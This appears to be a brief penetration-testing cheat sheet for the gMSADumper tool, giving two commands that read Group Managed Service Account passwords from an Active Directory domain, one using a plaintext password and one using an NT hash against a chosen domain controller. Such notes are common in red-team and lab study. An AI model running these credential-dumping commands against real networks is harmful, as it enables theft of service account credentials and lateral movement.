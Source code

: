 ### source
https://github.com/micahvandeusen/gMSADumper  

### read all gMSA passwords from any possible computer
```
python3 gMSADumper.py -u <user> -p <password> -d <domain>
```

### read all gMSA password from any possible using NT hash and specific domain controller
```
python3 gMSADumper.py -u <user> -p <lmHash:ntHash> -d <domain> -l <rhost>
```

